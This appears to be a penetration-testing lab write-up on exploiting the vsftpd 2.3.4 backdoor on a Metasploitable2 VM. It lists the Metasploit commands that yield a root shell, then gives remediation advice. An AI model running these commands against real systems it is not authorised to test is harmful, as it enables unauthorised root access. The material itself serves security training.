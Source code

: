 # Metasploitable2 – vsftpd 2.3.4 Backdoor (Port 21)

**Date:** 2025-09-04  
**Target:** 192.168.56.101  
**Attacker:** Kali Linux 2025.2  
---
## Recon
Nmap revealed the following service running on port 21:  
21/tcp open ftp vsftpd 2.3.4
This version is vulnerable to a known backdoor (CVE-2011-2523, Exploit-DB 17491).
---
## Exploitation (Metasploit)
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
exploit
---
## Proof of Compromise
Successful exploitation resulted in a root shell:
whoami
root
uname -a
Linux metasploitable 2.6.24-16-server ...
---
## Artifacts
- [Nmap results](./nmap_results.txt)  
- Screenshot(s): 
  ![Network setup](./images/network-setup.png.png)
  ![Root shell proof](./images/root-shell.png.png)
- PDF report: OSCP_Report_vsftpd.pdf  
---
## Remediation
Upgrade vsftpd to a secure version (>= 2.3.5).  
Replace FTP with SFTP/SSH where possible.  
Restrict or disable legacy FTP access.
